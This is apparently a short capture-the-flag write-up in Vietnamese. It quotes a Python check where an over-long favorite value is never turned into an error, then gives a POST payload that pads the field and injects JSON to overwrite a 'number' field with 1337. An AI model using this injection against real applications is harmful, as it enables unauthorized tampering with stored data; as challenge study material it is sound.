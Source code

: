 vuln in 
```py
if "'" in favorite_value: error = 'Custom favorite may not contain single quote'
	if len(favorite_value) > 64: 'Custom favorite too long'
```
Ở đây check length của `favorite_value` nhưng không gán vô `error` => mình có thể nhập favorite_value mà không cần chú ý đến length.
Sử dụng favorite_value ghi đè number thành 1337

payload
```
name=taidh&image=images&favorite_key=a&favorite_value=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","number":1337}&word=b&number=1&bio=taidh1234
```